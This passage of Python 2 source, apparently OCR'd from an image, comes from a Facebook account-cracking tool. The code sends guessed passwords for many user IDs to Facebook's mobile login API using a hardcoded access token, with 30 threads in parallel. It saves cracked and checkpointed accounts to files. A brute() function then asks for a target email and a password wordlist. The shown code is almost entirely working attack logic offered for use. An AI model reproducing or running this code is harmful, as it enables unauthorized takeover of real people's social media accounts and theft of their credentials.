 														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass6 + ' 👽 ' + b['name']
															cek = open("out/CP.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															pass7 = 'Pakistan'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass7 + ' 👽 ' + b['name']
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass7 + ' 👽 ' + b['name']
																	cek = open("out/CP.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
		except:																		
			pass
		
	p = ThreadPool(30)
	p.map(main, id) 
	
	print '\033[1;31;40m[✓] Process Has Been Completed\033[1;97m....'
	print "\033[1;32;40m[+] Total OK/\033[1;97mCP \033[1;97m: \033[1;97m"+str(len(oks))+"\033[1;31;40m/\033[1;36;40m"+str(len(cekpoint))
	print '\033[1;34;40m[+] CP File Has Been Saved : save/cp.txt'
	print """
\033[1;31;40m ●════════════════════════◄►════════════════════════●
           """
	raw_input("\n\033[1;97m[\033[1;97mExit\033[1;97m]")
	super()

def brute():
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\033[1;97m[!] Token not found'
        os.system('rm -rf login.txt')
        time.sleep(0.5)
        login()
    else:
        os.system('clear')
        print logo
        print '\033[1;31;40m ●════════════════════════◄►════════════════════════●'
        try:
            email = raw_input('\033[1;97m[+] \033[1;97mID\033[1;97m/\033[1;97mEmail \033[1;97mTarget \033[1;97m:\033[1;97m ')
            passw = raw_input('\033[1;97m[+] \033[1;97mWordlist \033[1;97mext(list.txt) \033[1;97m: \033[1;97m')
            total = open(passw, 'r')
            total = total.readlines()
            print '\033[1;31;40m ●════════════════════════◄►════════════════════════●'
            print '\033[1;97m[\033[1;97m\xe2\x9c\x93\033[1;97m] \033[1;97mTarget \033[1;97m:\033[1;97m ' + email
            print '\033[1;97m[+] \033[1;97mTotal\033[1;97m ' + str(len(total)) + ' \033[1;97mPassword'